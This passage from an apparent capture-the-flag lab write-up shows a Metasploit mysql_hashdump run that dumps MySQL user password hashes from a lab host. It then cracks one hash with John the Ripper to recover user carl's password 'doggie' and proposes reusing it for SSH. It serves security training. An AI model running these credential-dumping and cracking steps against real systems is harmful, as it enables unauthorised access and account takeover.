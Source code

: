 ```commandline
msf6 auxiliary(scanner/mysql/mysql_hashdump) > setg USERNAME root
USERNAME => root
```

Finally, run the exploit:

```commandline
msf6 auxiliary(scanner/mysql/mysql_hashdump) > exploit

[+] 10.10.188.228:3306    - Saving HashString as Loot: root:
[+] 10.10.188.228:3306    - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.188.228:3306    - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.188.228:3306    - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.188.228:3306    - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.188.228:3306    - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.188.228:3306    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We have now the hashes of our users. we are ready to crack them with john. But first, let's save that to a text file.

```commandline
echo "carl:*EA031893AA21444B170FC2162A56978B8CEECE18" > hash.txt
```

So now let's use john to find out the password:
```
┌──(root💀vm-dsktp-kali)-[/home/itchy]
└─# john hash.txt                                                                                                                                          1 ⚙
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 6 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Warning: Only 6 candidates left, minimum 8 needed for performance.
Proceeding with incremental:ASCII
doggie           (carl)
1g 0:00:00:00 DONE 3/3 (2021-08-01 14:33) 1.265g/s 2893Kp/s 2893Kc/s 2893KC/s doggie..doggia
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So the MySQL login password of user carl is `doggie`. Password reuse is not only extremely dangerous, but extremely common.

And can guess that we can log in to `ssh carl@10.10.188.228` with the passowrd `doggie` :-D